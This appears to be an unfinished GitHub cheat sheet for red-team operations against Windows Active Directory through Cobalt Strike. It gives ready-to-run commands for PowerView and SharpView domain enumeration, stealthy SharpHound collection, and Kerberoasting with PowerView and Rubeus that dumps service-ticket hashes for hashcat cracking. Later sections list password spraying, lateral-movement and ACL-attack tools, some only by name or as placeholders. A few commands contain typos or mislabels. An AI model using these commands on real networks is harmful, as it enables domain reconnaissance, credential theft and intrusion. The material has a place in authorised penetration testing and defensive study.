 # NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
PowerView:
# powershell-import --> Select PowerView.ps1 to import PS1 file in memory
# powershell Get-Module PowerView
# powershell Get-NetUser -Identity testuser -Domain test.lab.com

SharpView
# execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
# powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
# powershell Get-ADDomainController -Domain test.lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
Running SharpView in memory (.NET version of PowerView)
# execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain test.lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

Collecting only user sessions to determine who is logged in and where:
# execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Local Privilege Escalation
PowerUp

-------------------------------------------------------------
## Lateral Movement
Invoke-TheHash

Enable Powershell Remoting

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
-------------------------------------------------------------
## Domain Privilege Escalation
### GPP Password

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
test code
```

### Kerberoasting
PowerView kerberoasting
```
Get users with SPN set
# powershell Get-DomainUesr -SPN

Kerberoast all users
# powershell Invoke-Kerberoast - OutputFormat hashcat | fl

Kerberoast specific user
# powershell Invoke-Kerberoast -Identity testaccount -Domain test.lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
Kerberoast all users:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:test.lab.com

Kerberoast specific user:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:test.lab.com
```

---
## Exfiltration - Password Attacks


---
# References
Cobalt Strike commands cheat-sheet: https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet
Sharphound: https://github.com/BloodHoundAD/SharpHound3
